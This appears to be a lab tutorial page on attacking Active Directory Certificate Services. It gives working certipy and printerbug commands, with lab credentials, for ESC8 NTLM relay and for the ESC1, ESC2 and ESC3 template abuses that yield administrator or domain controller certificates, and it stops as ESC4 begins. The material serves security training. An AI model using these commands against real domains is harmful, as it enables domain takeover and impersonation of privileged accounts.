

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/ADCSExploiting/index.html · generator: mkdocs

#ADCS Exploiting

Active Directory Certificate Services is Microsoft's Public Key Infrastructure implementation for Active Directory environments. It allows organizations to issue, manage, and validate various digital certificates. These certificates can be used for user/computer logon, email/file encryption, signing, and Kerberos authentication.

ADCS misconfigurations may lead to possible attack vectors, as we'll see in this section. ADCS related attacks are also named ESC (Enterprise Security Configuration) attacks. There are many ESC attacks. This section will only illustrate some of these.

As a first step to attack AD through the Certificate Services, an attacker should first assess ADCS information, such as the CA (Certificate Authority) name, as well as the templates issued by the CA, in order to look for some vulnerable templates and CA configurations. To do so, the certipy tool may be used:

```
certipy find -u skyler.white@north.altair.local -p 'Password123' -vulnerable -dc-ip 192.168.122.10 -stdout
```
This will output various information to stdout. We can see that the CA is called North Root CA, and that it is vulnerable to ESC1-4 and ESC8 attacks.

The ESC8 attack is possible since the CA allows web enrollment. This means that users are allowed to request certificates by authenticating through the network. As we've explored on other attacks, we can relay NTLM authentication from a client to a server and impersonate the client against the legitimate server. In this case, let's relay NTLM messages from the DC itself to the CA (which is being hosted by MEMBER), and this way, retrieve a certificate as the DC itself. The certificate can then be used to obtain a TGT issued for the DC account. This allows the attacker to impersonate the DC through its TGT.
```
#start the relay in terminal 1
certipy relay -target 192.168.122.5 -ca 192.168.122.5 -template DomainController 
#trigger NTLM dc authentication from terminal 2
python3 printerbug.py NORTH/skyler.white:Password123@192.168.122.10 192.168.122.2 
#now, you should have acquired a certificate through the certipy script. use it to get a TGT as the DC
certipy auth -pfx captain.pfx -dc-ip 192.168.122.10
```

ESC1-4 are related to misconfigured templates, rather than a misconfigured CA. On an ESC1 attack, an attacker takes advantage of the fact that there's a template that allows the enrollee to supply a SubjectAltName (SAN). This SAN identifies to whom this certificate is being issued to. It basically allows the attacker to say "Hey, I'm asking for this certificate, but it's actually for the administrator, not me. So go ahead and issue a certificate on the administrator's behalf, I'll take care of the rest.". Since the template allows the attacker to supply a SAN, the CA issues this certificate in the administrator's name and sends it to the attacker.

```
#retrieve the certificate
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template ESC1 -ca 'North Root CA' -upn administrator@north.altair.local
#now use the certificate to authenticate as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10 
```

When it comes to ESC2 and ESC3 templates, these are configured with the 'Any Purpose' EKU and 'Certificate Request Agent' EKUs, respectively. EKU stands for Extended Key Usage, and it determines the uses that a template has. These two EKUs allow a user to use the certificates to request other certificates in name of other users. Having these EKUs set on certificate to which low-privilege users can enroll open ways for ESC2(Any Purpose EKU) and ESC3(Certificate Request Agent EKU) attacks:

```
#request the certificate template with over permissive EKUs. can be either ESC2 or ESC3
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template ESC2 -ca 'North Root CA'
#use the certificate to request another certificate on behalf of another user
certipy req -u skyler.white@north.altair.local -p 'Password123' -target 192.168.122.5 -template User -ca 'North Root CA' -on-behalf-of 'north\administrator' -pfx skyler.white.pfx
#retrieve a tgt for the administrator user
certipy auth -pfx administrator.pfx -dc-ip 192.168.122.10
```

Finally, the ESC4 attack is possible when the attacker has compromised an account that holds write permissions over a certificate template. By being able to modify a certificate template, the attacker can alter its configuration, and for example, allow the enrollee to supply a SAN (ESC1 attack):
